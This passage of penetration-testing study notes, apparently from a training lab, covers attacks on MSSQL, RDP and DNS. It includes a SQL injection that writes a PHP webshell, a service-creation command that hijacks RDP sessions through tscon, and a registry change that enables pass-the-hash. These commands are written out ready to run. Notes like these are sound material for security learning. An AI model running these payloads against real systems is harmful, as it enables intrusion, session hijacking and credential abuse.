 Preferably impersonate users within the master DB, as all users have access to that DB by default.

* To return to previous user, use the `REVERT` statement.

We can also enumerate users to determine their access to databases or linked servers.

In a linked server/remote server scenario, we can also execute commands on the other connected servers through MSSQL.

From Lab - webshell upload SQL injection:
`SELECT "<?php system($_REQUEST['cmd']); ?>",'N' INTO OUTFILE '<path to your server site>/webshell.php'`

* To use this, navigate to shell path in website, then pass commands into the URL as queries. E.g., `<domain name>/webshell.php?cmd=<command to exec>`.
* In this case, we could upload a reverse shell and connect from our attack host.
* Note that the one-liner provided in the cheatsheet works similarly. Simply pass in the command as a query to `c`. For example, `<domain>/webshell.php?c=whoami`.

## Attacking RDP

Password spraying attacks can be carried out using the `crowbar` or `hydra` tools.

RDP session hijacking can occur through user impersonation.

* Firstly, we can view active users/sessions using the `query user` command in PowerShell.
* To do this, we will need `SYSTEM` privileges.
* We use the `tscon.exe` binary, where can specify the session ID we would like to assume.

If we have local administrator privileges, we can utilize several methods to obtain `SYSTEM` privileges.

* This can be done through `mimikatz` or `PsExec`.
* Simple trick is to create a service that runs as `Local System` and executes binaries with `SYSTEM` privileges. This can be done using `sc.exe` (a LOLBin): `sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"`.
* Once done, we can start the `sessionhijack` service using `net start sessionhijack`, and assume another session (Note that this does not work on Server 2019).

Recall that we can PtH using RDP, just enable the Restricted Admin Mode by adding the registry key `DisableRestrictedAdmin`.
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

## Attacking DNS

DNS zone transfers can be queried using `dig axfr`, or using `fierce`.

Domain takeover - registering a non-existent domain name to gain control over another domain

* Sub-domains can also be taken over. For instance, suppose that `sub.target.com` points to `anotherdomain.com` (as per the DNS records), and both are owned by a legitimate entity. Now, if `anotherdomain.com` expires and a malicious actor purchases this domain to host their content, then the subdomain is also taken over, as it continues to point to the expired domain. This persists until the DNS records are updated.

We can enumerate subdomains using a tool like `subfinder` or `subbrute`.
